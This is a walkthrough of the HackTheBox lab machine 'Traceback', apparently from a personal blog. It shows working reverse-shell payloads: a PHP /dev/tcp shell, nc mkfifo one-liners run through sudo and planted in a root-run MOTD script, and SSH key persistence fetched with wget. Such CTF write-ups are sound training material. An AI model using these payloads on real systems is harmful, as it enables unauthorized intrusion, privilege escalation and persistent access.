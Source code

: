 ```yaml
---
title: "HackTheBox: Traceback | Walkthrough"
date: 2020-08-16
categories: [hackthebox]
tags: [linux, webshell, sudo, privesc]
---
```


## Enumeration

Add the host to `/etc/hosts`:

```bash
vi /etc/hosts
10.10.10.181  traceback
````

Run an Nmap scan:

```bash
nmap -A 10.10.10.181 -o traceback/nmap
```

Results:

```
22/tcp   open  ssh   OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp   open  http  Apache httpd 2.4.29
```

Browsing the site reveals a comment suggesting the presence of a **web shell**. Searching leads to:

```
http://traceback/smevk.php
```

Credentials:

```
admin / admin
```

---

## Initial Foothold

On the attacker machine, create a reverse shell:

```bash
vi rev.php
```

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.86/4444 0>&1'");
?>
```

Set up a netcat listener:

```bash
nc -nvlp 4444
```

Upload `rev.php` and then visit:

```
http://traceback/rev.php
```

You should now have a reverse shell.

Stabilize it:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Read the note:

```bash
cd ~
cat note.txt
```

Check sudo privileges:

```bash
sudo -l
```

---

## User Shell

We can execute a command as **sysadmin** to get another reverse shell.

On attacker machine:

```bash
nc -nvlp 1234
```

On target:

```bash
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 1234 >/tmp/f")'
```

Now you have a shell as **sysadmin**.

---

## Persistence via SSH

Set up an SSH key:

```bash
(echo "\n\n"; cat ~/.ssh/id_rsa.pub; echo "\n\n") > ~/hackthebox/traceback/www/test.txt
python -m SimpleHTTPServer
```

On target (as webadmin):

```bash
cd ~/.ssh
wget http://10.10.14.114:8000/test.txt
cat test.txt >> authorized_keys
rm test.txt
```

Now you can SSH directly into the machine.

---

## Privilege Escalation

Enumerating processes:

```bash
ps aux | grep root
```

We see that **root is regularly updating `/etc/update-motd.d/`**.

Check permissions:

```bash
ls -al /etc/update-motd.d/
```

We have **write and execute** privileges on `00-header`.

Append a reverse shell payload:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 2345 >/tmp/f" >> /etc/update-motd.d/00-header
```

On attacker machine, open a listener:

```bash
nc -nvlp 2345
```

Then, in another tab:

```bash
ssh webadmin@10.10.10.181
```

When MOTD loads, the payload executes, and you get a reverse shell as **root**.

---

## Proof

```bash
whoami
cat ~/root.txt
```

Rooted ✅


